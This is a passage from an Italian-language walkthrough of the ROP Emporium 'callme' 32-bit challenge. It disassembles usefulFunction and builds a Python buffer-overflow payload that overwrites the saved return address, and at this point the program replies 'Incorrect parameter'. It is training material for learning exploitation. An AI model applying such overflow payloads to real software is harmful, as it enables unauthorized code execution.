 ```bash
[ 8477.097170] Code: Unable to access opcode bytes at 0x43434319.
```

Funziona!

Continuiamo l'analisi ispezionando il codice di `usefulFunction`:

```bash
┌ 67: sym.usefulFunction (); // noreturn
│ 0x0804874f      55             push ebp
│ 0x08048750      89e5           mov ebp, esp
│ 0x08048752      83ec08         sub esp, 8
│ 0x08048755      83ec04         sub esp, 4
│ 0x08048758      6a06           push 6                                ; 6
│ 0x0804875a      6a05           push 5                                ; 5
│ 0x0804875c      6a04           push 4                                ; eflags
│ 0x0804875e      e87dfdffff     call sym.imp.callme_three
│ 0x08048763      83c410         add esp, 0x10
│ 0x08048766      83ec04         sub esp, 4
│ 0x08048769      6a06           push 6                                ; 6
│ 0x0804876b      6a05           push 5                                ; 5
│ 0x0804876d      6a04           push 4                                ; eflags
│ 0x0804876f      e8dcfdffff     call sym.imp.callme_two
│ 0x08048774      83c410         add esp, 0x10
│ 0x08048777      83ec04         sub esp, 4
│ 0x0804877a      6a06           push 6                                ; 6
│ 0x0804877c      6a05           push 5                                ; 5
│ 0x0804877e      6a04           push 4                                ; eflags
│ 0x08048780      e86bfdffff     call sym.imp.callme_one
│ 0x08048785      83c410         add esp, 0x10
│ 0x08048788      83ec0c         sub esp, 0xc
│ 0x0804878b      6a01           push 1                                ; 1 ; int status
└ 0x0804878d      e87efdffff     call sym.imp.exit                     ; void exit(int status)

```

La funzione invoca in sequenza `callme_one`, `callme_two` e `callme_three` ed infine invoca la `exit` per la terminazione del programma. 

Si pensa di modificare il *payload* in modo da sovvrascrivere il *saved eip* con l'indirizzo di memoria della funzione `usefulFunction` (si ricorda che il binario e' **NO PIE**):

- **padding** di dimensione 0x28 + 0x4 bytes.
- **usefulFuntion address**.

```bash
$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*0x28 + b"B"*0x4 + b"\x4f\x87\x04\x08"*0x4)' | ./callme32 
callme by ROP Emporium
x86

Hope you read the instructions...

> Thank you!
Incorrect parameter

```
